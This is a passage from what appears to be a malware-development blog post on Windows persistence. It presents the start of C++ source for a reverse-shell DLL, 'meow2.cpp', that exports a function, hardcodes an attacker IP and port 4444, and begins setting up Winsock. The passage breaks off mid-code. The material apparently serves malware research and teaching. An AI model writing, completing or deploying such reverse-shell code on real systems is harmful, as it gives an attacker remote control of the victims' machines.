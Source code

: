 ![malware](/assets/images/177/2025-09-17_01-21.png){:class="img-responsive"}    

As you can see, everything worked as expected! =^..^=     

### practical example 2

What about something with more sophisticated logic? Here's a revshell DLL using `WSAConnect()`:    

```cpp
/*
* meow2.cpp
* "malicious" DLL for persistence: revsh
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2025/09/14/malware-pers-28.html
*/
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
    WSADATA socketData;
    SOCKET sock;
    struct sockaddr_in addr;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
  
    char *attackerIP = "10.10.10.1";
    short attackerPort = 4444;

    // initialize socket library
    WSAStartup(MAKEWORD(2, 2), &socketData);

```